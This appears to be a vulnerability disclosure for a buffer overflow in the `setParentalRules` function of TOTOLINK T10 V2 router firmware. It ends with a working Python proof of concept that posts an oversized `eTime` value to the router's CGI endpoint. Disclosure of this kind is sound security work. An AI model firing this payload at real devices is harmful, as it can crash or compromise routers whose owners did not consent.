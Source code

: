 ## Overview



- Manufacturer's website information：https://www.totolink.net/
- Firmware download address :https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/172/ids/36.html

## Affected version

| Name            | **Version**             |
| --------------- | ----------------------- |
| T10 V2_Firmware | V4.1.8cu.5241_B20210927 |

## Vulnerability details



In the T10 V2_Firmware V4.1.8cu.5241_B20210927 firmware has a buffer overflow vulnerability in the `setParentalRules` function. The `v9` variable receives the `eTime` parameter from a POST request. However, since the user can control the input of `eTime`, the `sprintf` can cause a buffer overflow vulnerability.

![71e223f0a22ba71413681ee0b77b0a4](https://raw.githubusercontent.com/Ruoyyy/picgo/main/71e223f0a22ba71413681ee0b77b0a4.png)

![78b91ece3fd379991b2d398eea573f0](https://raw.githubusercontent.com/Ruoyyy/picgo/main/78b91ece3fd379991b2d398eea573f0.png)

## POC

```
import requests
url = "http://192.168.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1604138238:2"}
data = {
"topicurl":"setParentalRules",
"addEffect":"1",
"mac":"111",
"eTime":"a"*0x1000,
}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![3f4e6bd025a3407f204aeb2ce9bd463](https://raw.githubusercontent.com/Ruoyyy/picgo/main/3f4e6bd025a3407f204aeb2ce9bd463.png)